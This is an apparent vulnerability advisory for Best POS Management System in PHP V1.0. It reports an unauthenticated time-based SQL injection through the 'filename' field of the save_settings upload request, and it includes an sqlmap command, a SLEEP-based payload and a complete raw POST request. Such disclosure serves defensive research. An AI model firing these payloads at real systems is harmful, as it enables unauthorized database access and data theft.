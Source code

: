 # Best pos management system in php V1.0 - SQL injection vulnerability

### You do not need to log in and open the website storage directory

Supplier:https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

http://localhost/ajax.php?action=save_settings   -----> POST request ----->  'filename' can control some file name parameters

Vulnerability location: admin_class.php in the root directory of the website. Triggered by the save_settings function in ajax.php

Web function point, after logging into the background, System Settings ->Image

Note: Triggering this vulnerability does not require logging in.

![1](/img/Best-pos-management-system-in-php/8.png)

Location of SQL injection vulnerabilities in source code: Lines 165 to 174 in admin_class.php under the root directory.

![2](/img/Best-pos-management-system-in-php/7.png)

Sqlmap Payload:sqlmap -r post2 --dbms=mysql -v 3

![3](/img/Best-pos-management-system-in-php/6.png)

Note: I added * after the 'filename' parameter in POST2 to tell sqlmap where to inject the parameter, which is not shown in the figure

The injection point occurs in the 'filename' parameter of the post request package

Payload:shell.png' AND (SELECT 7769 FROM (SELECT(SLEEP(15)))a) AND '1'='1

POST:
```
POST /ajax.php?action=save_settings HTTP/1.1
Host: www.kruxton.com:8083
Content-Type: multipart/form-data; boundary=---------------------------988021490109555064829866363
Content-Length: 718

-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="name"

2
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="email"

3@qq.com
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="contact"

3
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="about"

111
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="img"; filename="shell.png' AND (SELECT 7769 FROM (SELECT(SLEEP(15)))a) AND '1'='1"
Content-Type: image/png

222
-----------------------------988021490109555064829866363--
```

give the result as follows

![4](/img/Best-pos-management-system-in-php/9.png)

Successfully triggered a delay of about 15 seconds!